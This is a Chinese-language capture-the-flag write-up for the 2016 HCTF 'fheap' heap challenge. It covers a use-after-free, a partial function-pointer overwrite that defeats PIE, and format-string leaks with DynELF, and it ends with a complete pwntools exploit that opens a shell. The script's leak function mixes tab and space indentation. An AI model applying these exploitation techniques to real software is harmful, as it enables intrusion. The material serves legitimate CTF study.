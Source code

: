 ```yaml
---
title: 2016-HCTF-fheap-[fastbin UAF,PIE,DynELF use fmt]
date: 2019-03-02 14:39:57
tags: [UAF,DynELF,PIE,format string]
---
```


## Analysis

```
Canary                        : Yes
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```
程序有两个功能：1、create string 2、delete string
在create string函数中，当申请的字符串长度小于16字节时，会直接将字符串存放在堆中；如果大于等于16字节，就会另申请一块堆内存，并将指针存放在原堆块中。程序结构体如下所示

```
typedef struct String{
    union {
        char *buf;
        char array[16];
    } o;
    int len;
    void (*free)(struct String *ptr);
} String;
```
程序在delete string时free堆块，没有将堆指针设为NULL，导致存在UAF漏洞，可以通过UAF漏洞覆盖`void (*free)(struct String *ptr);`函数指针为我们想要执行的函数，因为函数开启了PIE，所以要绕过PIE。

## 利用UAF和partial overwrite绕过PIE
由于内存页的载入机制，PIE的随机化只能对单个内存页进行随机化，因为一个内存页的大小通常为0x1000，所以对于一个被随机化的地址来说，无论地址怎么变，它的低12bit，3个十六进制数不会变。所以可以通过partial overwrite，修改`void (*free)(struct String *ptr);`函数指针。
因为覆盖时只能覆盖整个字节（8bit或16bit，即2个或4个十六进制数），原函数指针后三位为0xD52，经观察puts函数`.text:0000000000000D2D                 call    _puts`后三位为0xD2D，所以只需要将0x52覆盖为0x2D就可以实现puts打印出puts的地址，然后减去0xD2D获取程序基址
```
        create(4,'bb')
        create(4,'cc')
        delete(1)
        delete(0)
        data='a' * 0x10 + 'b' * 0x8 + '\x2d'
        create(0x20, data)  #data被写进chunk1中
        delete(1)
        p.recvuntil('b' * 0x8)
        data = u64(p.recv(6).ljust(8,'\x00'))
        process_base = data - 0xd2d
        delete(0)

```
获取了程序的基址，接下来就是获取system函数的地址，因为程序为调用过system函数，所以使用pwntools的DynELF函数对程序使用的libc库进行搜索，获取system函数的地址。

## 利用UAF和格式化字符串漏洞获取system地址

DynELF是pwntools中专门用来应对无libc情况的漏洞利用模块，需要一个程序存在可以反复触发信息泄露的漏洞，从而可以不断泄露libc地址空间内的信息。
将`void (*free)(struct String *ptr);`覆盖为printf，进而构造利用格式化字符串漏洞泄露内存。leak函数如下
```
printf_plt = process_base + 0x9d0
def leak(addr):
        data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
        create(0x20, data)
        p.recvuntil("quit")
        p.sendline("delete string")
        p.recvuntil('id:')
        p.sendline(str(1))
        p.recvuntil('sure?:')
        p.sendline('yes12345' + p64(addr))
        data = p.recvuntil('AA')[:-2]
        data += "\00"
        return data
```
发现printf函数调用时出现segmentation段错误，后来对比发现正常的printf函数流程在`<__printf+34>`当ZF=1时je会跳转，而`<__printf+7>:test   al,al`当al and al等于0时会将ZF标志寄存器置1，故al and al = 1时，je会跳转。段错误时，printf函数没有发生跳转，而是执行到`<__printf+36>`，发生错误。
```
0x7ff6ab807800 <__printf>:	sub    rsp,0xd8
   0x7ff6ab807807 <__printf+7>:	test   al,al
   0x7ff6ab807809 <__printf+9>:	mov    QWORD PTR [rsp+0x28],rsi
   0x7ff6ab80780e <__printf+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7ff6ab807813 <__printf+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x7ff6ab807818 <__printf+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x7ff6ab80781d <__printf+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x7ff6ab807822 <__printf+34>:	je     0x7ff6ab80785b <__printf+91>
   0x7ff6ab807824 <__printf+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7ff6ab807829 <__printf+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x7ff6ab80782e <__printf+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x7ff6ab807833 <__printf+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x7ff6ab80783b <__printf+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x7ff6ab807843 <__printf+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x7ff6ab80784b <__printf+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x7ff6ab807853 <__printf+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x7ff6ab80785b <__printf+91>:	lea    rax,[rsp+0xe0]
   ......
```
所以讲`void (*free)(struct String *ptr);`指向0xF51，会将al置零
```
.text:0000000000000F51                 mov     eax, 0
.text:0000000000000F56                 call    _printf
.text:0000000000000F5B                 mov     rdx, [rbp+nbytes] ; nbytes
```
测试后发现，printf可以正常打印出地址，但是只能执行一次，因为DynELF要求leak函数能够重复执行，分析发现，原来的leak函数中函数指针指向print@plt，调用函数，函数的返回值不变，执行`delete(1)`后，能根据返回值，返回到菜单界面，再次执行`delete(0)`，而将函数指针指向0xF51时，调用了一个call，函数的返回到0xF5B，程序返回不到原来的菜单界面。
最后通过在leak函数前，再次`create(0x20,data)`，释放堆快，重新布局内存空间，不需要将函数指针指向0xF51也可以正常执行printf函数。
泄露出system函数地址后，再次利用函数指针，执行`/bin/sh;`获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./fheap')
DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = "debug")

def create(size,content):
	p.recvuntil("quit")
	p.sendline("create string")
	p.recvuntil("size:")
	p.sendline(str(size))
	p.recvuntil('str:')
	p.sendline(content.ljust(size,'\x00'))
	p.recvuntil('n')

def delete(idx):
	p.recvuntil("quit")
	p.sendline("delete string")
	p.recvuntil('id:')
	p.sendline(str(idx))
	p.recvuntil('sure?:')
	p.send('yes '+'\n')

printf_plt = 0

def leak(addr):
	delete(0)
	data = '%9$sAA' + '#'*(0x18 - len('%9$sAA')) + p64(printf_plt)
  create(0x20, data)
  p.recvuntil("quit")
  p.sendline("delete string")
  p.recvuntil('id:')
  p.sendline(str(1))
  p.recvuntil('sure?:')
  p.sendline('yes12345' + p64(addr))
  data = p.recvuntil('AA')[:-2]
	data += "\00"
	return data

def pwn():
	global printf_plt
	create(4,'bb')
	create(4,'cc')
	delete(1)
	delete(0)
	#get the base address of process due to the process has opened ASLR(PIE).
	data='a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20, data)
	delete(1)
	p.recvuntil('b' * 0x8)
	data = u64(p.recv(6).ljust(8,'\x00'))
	process_base = data - 0xd2d
	log.success('process_base:'+hex(process_base))
	printf_plt = process_base + 0x9d0
	log.success('printf_plt:'+hex(printf_plt))
	delete(0)

	data = 'a' * 0x10 + 'b' * 0x8 + '\x2d'
	create(0x20,data)
	delete(1)
	d = DynELF(leak,process_base,elf = ELF('./fheap'))
	system_addr = d.lookup('system','libc')
	delete(0)
	log.success('system_addr:'+hex(system_addr))

	data = '/bin/sh;' + '#'*(0x18 - len('/bin/sh;')) + p64(system_addr)
	create(0x20,data)
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()

```
